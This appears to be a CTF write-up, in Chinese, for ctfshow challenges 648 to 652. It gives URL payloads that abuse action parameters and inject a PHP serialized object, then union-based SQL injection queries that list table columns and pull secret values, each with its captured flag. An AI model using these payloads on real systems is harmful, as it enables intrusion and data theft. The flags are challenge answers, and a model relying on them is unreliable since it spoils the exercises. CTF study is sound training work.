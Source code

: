 ![image-20220324201340621](https://img-blog.csdnimg.cn/img_convert/fdd23994984dc352a23d25adab8b85cf.png)

**?action=evilClass&m=1&key=flag_647=ctfshow{e6ad8304cdb562971999b476d8922219}**

ctfshow{af5b5e411813eafd8dc2311df30b394e}

# 649

![image-20220324202316488](https://img-blog.csdnimg.cn/img_convert/e40154de8e3e2405a832f9cb986858fa.png)

NULL绕过 **?action=evilNumber&m=&key=flag_648=ctfshow{af5b5e411813eafd8dc2311df30b394e}**

ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}

# 650

![image-20220324202840662](https://img-blog.csdnimg.cn/img_convert/29037b258aefdea1444895f54101fb34.png)

NULL 绕过，**?action=evilFunction&m=getenv&key=flag_649=ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}**

# 651

![image-20220324204703745](https://img-blog.csdnimg.cn/img_convert/5ebfa2aa28a3fdfa66a47d36b2879a56.png)

```
class a{
    public $username='123';
    public $y0ng="ctfshow";
}
$a=new a();
echo serialize($a);
```

**?action=evilArray&m=O:1:"a":2:{s:8:"username";s:3:"123";s:7:"ctfshow";s:7:"ctfshow";}&key=flag_650=ctfshow{5eae22d9973a16a0d37c9854504b3029}**

ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}

# 652

发现存在注入

![image-20220324211736445](https://img-blog.csdnimg.cn/img_convert/b3cceda18234fcc971ac47cf727aa144.png)

调用处在 url/page.php

![image-20220324211807362](https://img-blog.csdnimg.cn/img_convert/cd6a0fec680483bf6d73c4a76da90a5c.png)



```
// root@localhost
?id=-1) union select user()%23

//ctfshow_keys,ctfshow_secret,ctfshow_users
//secret
0) union select group_concat(column_name) from information_schema.columns where table_name=0x63746673686f775f736563726574%23

//flag_652=ctfshow{4b37ab4b6504d43ea0de9a688f0e3ffa}
0) union select secret from ctfshow_secret%23

//0) union select key from ctfshow_keys%23无回显，可能存在特殊字符
//key_is_here_you_know
```